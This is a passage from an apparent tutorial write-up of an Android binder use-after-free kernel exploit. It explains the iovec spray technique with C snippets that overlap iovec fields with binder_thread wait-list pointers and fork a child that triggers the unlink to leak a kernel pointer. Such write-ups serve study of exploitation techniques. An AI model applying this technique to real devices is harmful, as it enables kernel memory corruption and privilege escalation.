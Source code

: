 <img src="../images/iovec_spray.png" alt="iovec_spray" style="zoom:50%;" />

Now let's try to see what values overlap the `binder_thread` fields, and why.

```c
iovecs[IOVEC_OVERLAP_INDEX].iov_base = dummy_page;
iovecs[IOVEC_OVERLAP_INDEX].iov_len = PAGE_SIZE;
iovecs[IOVEC_OVERLAP_INDEX + 1].iov_base = (void *) 0x41414141;
iovecs[IOVEC_OVERLAP_INDEX + 1].iov_len = PAGE_SIZE;
```

We set the first `iov_base` to the `mmap()`ed page to avoid deadlocking (the address looks like an unlocked lock), we set the corrisponding `iov_len` field to PAGE_SIZE, which is also the size of the pipe, we did this so that it won't process the next iovec immediately, but we'll have to manually `read()` from the pipe again.

We initialize the other iovec with an invalid address since it'll be overwritten with a kernel address.

Now the cool part comes in, the child triggers the unlink, so a pointer to `binder_thread->wait.head` is written to `iovec[10].iov_len` (which overlapped `binder_thread->wait.task_list.next`) and to `iovec[11].iov_base` (which overlapped `binder_thread->wait.task_list.prev`).

```c
pid_t child = fork();
if (!child) {
    /* used to avoid race conditions */
    sleep(2);
    unlink_kptr_write();
    [...]
    exit(0);
}
```
